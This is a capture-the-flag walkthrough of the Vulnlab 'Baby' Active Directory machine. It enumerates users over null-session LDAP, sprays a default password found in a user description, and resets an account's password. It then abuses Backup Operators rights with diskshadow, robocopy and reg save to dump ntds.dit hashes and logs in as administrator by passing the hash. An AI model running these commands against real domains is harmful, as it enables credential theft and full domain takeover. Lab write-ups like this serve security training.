## Summary
Baby is an easy-difficulty machine on Vulnlab created by xct(github.com/xct) that centers around active directory enumeration and demonstrates how specific Windows features can be leveraged for privilege escalation.

---
## Recon
Starting with an aggressive `nmap` scan to identify all open ports(`-p-`), we use `--min-rate=1000` to keep the discovery process from stagnating:
```
sudo nmap -p- --min-rate=1000 -v baby.vl -oN nmap.ports
```


Now that we know everything that's open, it's time to do a more detailed scan on the open ports:
```
ports=$(cat nmap.ports | awk -F/ '/open/ {b=b","$1} END {print substr(b,2)}'); sudo nmap -p $ports -v -A -min-rate=1000 -oN nmap.baby baby.vl
```
This command creates a variable named 'ports', then assigns it to the result of which looks like:
```
53,88,135,139,389,445,464,593,636,3269,3389,5357,5985,49664,49667,49674,49675,63295
```
Then, it accesses the variable with $ports in an nmap command to do a more detailed scan on all of then with `-A` to gather OS and service information.

```
# Nmap 7.95 scan initiated Sat Nov  2 23:09:10 2024 as: nmap -p 53,88,135,139,389,445,464,593,636,3269,3389,5357,5985,49664,49667,49674,49675,63295 -v -A -oN nmap.baby baby.vl
Nmap scan report for baby.vl (10.10.74.59)
Host is up (0.24s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-02 23:09:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: BABY
|   NetBIOS_Domain_Name: BABY
|   NetBIOS_Computer_Name: BABYDC
|   DNS_Domain_Name: baby.vl
|   DNS_Computer_Name: BabyDC.baby.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-11-02T23:10:14+00:00
|_ssl-date: 2024-11-02T23:10:53+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=BabyDC.baby.vl
| Issuer: commonName=BabyDC.baby.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-07-26T09:03:15
| Not valid after:  2025-01-25T09:03:15
| MD5:   a63f:e0e6:9c19:ba19:0f14:2198:bd20:3eb3
|_SHA-1: 79c6:f752:73d0:6818:241e:6087:88b0:2a7f:b0bf:ec7f
5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
```

---
## Enumeration
Since SMB is open we'll start the enumeration there. The first thing I always try is to authenticate to the server with a null account. Using netexec shows that access to shares is denied, however the `[+]` shows that the account did successfully authenticate:
```
nxc smb baby.vl -u '' -p '' --shares
```


Next I want to check the Guest account, since it's commonly open in CTFs. Unfortunately for us, Guest account shows as disabled:
```
nxc smb baby.vl -u 'Guest' -p '' --shares
```


Using the null account over ldap we can begin enumeration over ldap. Checking account descriptions shows that the user Teresa.Bell has a default password stored in plaintext:
```
nxc ldap baby.vl -u '' -p '' -M user-desc
```


```
Teresa.Bell / BabyStart123!
```

Unfortunately, this account doesn't authenticate with the credential:



However, since it's the initial password it's likely to be in use elsewhere, and can still be sprayed once other users have been enumerated.

---
### Foothold
Using netexec and LDAP we can enumerate users with:
```
nxc ldap baby.vl -u '' -p '' --users
```


And from teresa.bell we know that the name format is first.last.
From here we can build a user list, but I don't have a convenient command to clean up this output so I'll get data from another location.

Using LDAP we can enumerate groups and their members.
First, lets pull all of the groups that teresa.bell is a member of:
```
nxc ldap baby.vl -u '' -p '' -M groupmembership -o USER=teresa.bell
```

Then, domain users can be enumerated with the group-mem module:
```
nxc ldap baby.vl -u '' -p '' -M group-mem -o GROUP="Domain Users"
```


The output can be saved and cleaned up with awk:
```
cat domainusers.txt | awk '{print $5}' > users.list
```
Which gives a nice and clean list:
```
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell
```

One problem, this list is missing two users from the first output:
```
Caroline.Robinson
Ian.Walker
```

Looking deeper, neither of these accounts appear to be in any groups:



However, looking back at the output from --users shows that they are in the 'it' and 'dev' OUs. So, what gives? 

This is because these accounts are members of groups that have permissions protecting against access from lower-level accounts, such as our null session.

Using ldapsearch we can dump users:
```
ldapsearch -x -H ldap://baby.vl -D 'baby.vl\' -w '' -b "CN=Users,DC=baby,DC=vl" member
```

```
-x: Simple authentication
-b: base dn for search
-D: bind DN
-w: bind password
-H: Host
```

Or to dump everything in an OU/Organizational Unit:
```
ldapsearch -x -H ldap://baby.vl -D 'baby.vl\' -w '' -b "CN=dev,CN=Users,DC=baby,DC=vl"
```




Back to the plot, doing a password spray with the default credential from earlier shows that caroline.robinson's password must change.



From here, password can be changed with impacket's smbpasswd.py using the default pass "BabyStart123!":
```
smbpasswd.py -newpass 'Password123!' Caroline.Robinson@baby.vl
```


With the password changed we now have control over the account, and can enumerate further. This account has full read over the smb shares:
```
nxc smb baby.vl -u 'caroline.robinson' -p 'Password123!' --shares
```


Looking back at the group memberships, with caroline's account we can now correctly see her and ian's groups using netexec:




It makes sense that we couldn't see their groups before, since *Backup Operators* and *Domain Admins* are both high privilege groups.

Since we know from the initial nmap scan that winrm's port(5985) was open it's worth checking if caroline can authenticate to it, and it looks like they can.
```
nxc winrm baby.vl -u 'caroline.robinson' -p 'Password123!'
```


The next step is to login with evil-winrm, where after some light enumeration we find the first flag!
```
evil-winrm -i baby.vl -u 'caroline.robinson' -p 'Password123!'
```


---
### Privilege Escalation
As we saw from enumerating groups above, or by running `whoami /all`, caroline.robinson is in the Backup Operators group. This means that they have the ability to backup any file on the system, including ntds.dit, which is where domain credentials are stored.

These steps are documented here:
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges

First, create a script and copy it over:
```
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backupX
```


Next, run diskshadow using /s to specify the script that was uploaded:
`diskshadow /s script.txt`



Then, copy the file from the backup created by diskshadow to a writeable directory:
`robocopy /b E:\Windows\ntds . ntds.dit`



Once it's copied, we can download the ntds.dit file back to our attacking machine.



In addition, we'll want to grab the system hive from the registry.
```
reg save HKLM\SYSTEM "system.save"
```


Once the files have been copied to the machine, impackets secretsdump.py can be used to dump the hashes from ntds.dit.
```
secretsdump.py -ntds ntds.dit -system system.save LOCAL
```

Finally, we can login to the machine as the administrator with evil-winrm and the hash that was just dumped from ntds.dit to claim the root flag:
```
evil-winrm -i baby.vl -u 'administrator' -H {snip}
```

